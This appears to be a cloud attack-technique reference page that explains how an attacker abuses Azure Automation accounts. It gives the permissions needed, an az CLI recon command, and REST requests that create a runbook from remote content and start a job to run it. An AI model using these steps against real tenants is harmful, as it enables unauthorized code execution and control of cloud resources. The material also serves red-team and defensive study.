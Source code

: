 #### Automation accounts 2
Azure Automation accounts support automation of various tasks in Azure Resource Manager. Using Automation Accounts Runbooks, you can execute scripts to manage tenant resources across all regions and subscriptions in the tenant.

**Recon**  
Require the following permission :  
- *Microsoft.Automation/automationAccounts/read*

```
az automation account list -g <resource group>

```

**Compromise**  
--> Attacker will attempt to create and run a new runbook under this account.  

Require the following permission :  
- *Microsoft.Automation/automationAccounts/runbooks/write*
- *Microsoft.Automation/automationAccounts/jobs/write*
```
PUT https://management.azure.com/subscriptions/{subscriptionId}/resourceGroups/{resourceGroupName}/providers/Microsoft.Automation/automationAccounts/{automationAccountName}/runbooks/{runbookName}?api-version=2015-10-31{
   "properties": {
      "logVerbose": false,
      "logProgress": true,
      "runbookType": "PowerShellWorkflow",
      "publishContentLink": {
         "uri": "runbook content URI",
         "contentHash": {
            "algorithm": "SHA256",
            "value": "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX"
         }
      },
      "description": "Description of the Runbook",
      "logActivityTrace": 1
   },
   "name": "RunBookName",
   "location": "East US 2"
}

```

**Note**: There are also CLI commands to create runbooks, but currently those commands require different permissions.  

**Create Job for RunBook**  
After creating the runbook, the attacker must create a job from the runbook.  

```
PUT https://management.azure.com/subscriptions/{subscriptionId}/resourceGroups/{resourceGroupName}/providers/Microsoft.Automation/automationAccounts/{automationAccountName}/jobs/{jobName}?api-version=2017-05-15-preview{
   "properties": {
      "runbook": {
         "name": "TestRunbook"
      },
      "parameters": {
         "key01": "value01",
         "key02": "value02"
      },
      "runOn": ""
   }
}
```

